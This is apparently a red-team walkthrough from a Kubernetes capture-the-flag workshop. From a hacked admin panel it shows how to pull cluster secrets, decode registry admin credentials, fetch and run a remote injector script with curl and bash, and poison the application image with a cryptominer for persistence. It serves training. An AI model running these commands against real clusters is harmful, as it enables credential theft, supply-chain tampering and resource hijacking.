 # The calls are coming from inside the container! Scenario 3 Attack

## Red Team Update

It appears the blue team has again deleted our bitcoinero pods.  It's time to get sneakier.  Instead of trying to deploy new pods into their cluster, let's poke around to see if there's anything we can use.

Lets see if there are any credentials accessible.

In the hacked admin panel, run the following:
```console
cd /usr/local/bin; curl -LO "https://dl.k8s.io/release/$(curl -L -s https://dl.k8s.io/release/stable.txt)/bin/linux/amd64/kubectl"; chmod 555 kubectl
```
```console
kubectl get secrets
```

Ooh.  There's something called `acr-secret`.  Let's dig in.
```
kubectl get secrets/acr-secret -o json
```

There's a .dockerconfigjson file in the secret that appears to be Base64 encoded

```
kubectl get secrets/acr-secret -o json | jq -r '.data.".dockerconfigjson"' | base64 -d - | jq
```

Now we're talking!  It looks like they put the admin credentials for their registry in a secret.  I bet we can use this to both PUSH and PULL new images to their registry.

We can use [Buildah](https://buildah.io/) to create, pull and push container images.  However, we will need escalated privledges.  

Some of the other red-team members have found this [neat trick from Twitter](https://x.com/mauilion/status/1129468485480751104), which deploy a container that gives us full host access.  Let's work with them to find a way to utilize this.

... TIME PASSES ...

Good luck!  They've come up with two scripts:

* [run-bitcoin-injector.sh](https://github.com/azure/aks-ctf/blob/main/workshop/scenario_3/run-bitcoin-injector.sh) - deploys a [Kubernetes Job](https://kubernetes.io/docs/concepts/workloads/controllers/job/) that uses the registry credentials we found, to create another pod that injects our bitcoinero miner into the container
* [inject-image.sh](https://github.com/azure/aks-ctf/blob/main/workshop/scenario_3/inject-image.sh) - Uses Buildah to pull the current app image, inject the bitcoinero miner into the image and re-publish the image under the same name

Let's go back to our admin panel and run the following:

```console
curl -O -J https://raw.githubusercontent.com/azure/aks-ctf/refs/heads/main/workshop/scenario_3/run-bitcoin-injector.sh; bash run-bitcoin-injector.sh
```
!!!tip Tip
    This command may take 1-2 minutes to run. Do not referesh the browser page. Wait for the command to complete.

Everything has been installed.  Let's kill our process and let the new image come up
```console
kubectl delete pod $HOSTNAME
```

The page immediately died (which is understandable since we killed the pod).  Let's reload the page and see if we were successful.  Run the following command in the admin page

```
ps
```

Our `moneymoneymoney` process is there and running inside their container!  Good luck finding that one!
